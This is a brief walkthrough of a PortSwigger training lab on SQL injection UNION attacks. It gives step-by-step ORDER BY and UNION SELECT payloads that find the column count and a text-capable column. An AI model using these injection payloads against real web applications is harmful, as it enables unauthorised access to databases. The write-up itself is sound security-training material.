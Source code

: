 # Lab: SQL Injection UNION attack – Finding a column containing text - [Link](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)


### Goal:

Make the database retrieve the string: `'ZUA5jF'`
You must find **which column** can hold text (i.e., string data type).

## Step-by-step:

### Access the lab , then open burp suite then capture request.

### 1. Determine number of columns

Test with `ORDER BY` until it breaks:

```sql
' ORDER BY 1--        → OK  
' ORDER BY 2--        → OK  
' ORDER BY 3--        → OK  
' ORDER BY 4--        → ERROR  
```

Means: **3 columns**


### 2. Determine data types in each column (to find which one supports **text**)

Try:

```sql
' UNION SELECT NULL,NULL,NULL--        → OK  
' UNION SELECT 'a',NULL,NULL--         → ERROR  
' UNION SELECT NULL,'ZUA5jF',NULL--    → OK — Challenge solved
```

Column **2** accepts text
The lab was automatically solved when the correct string was retrieved.
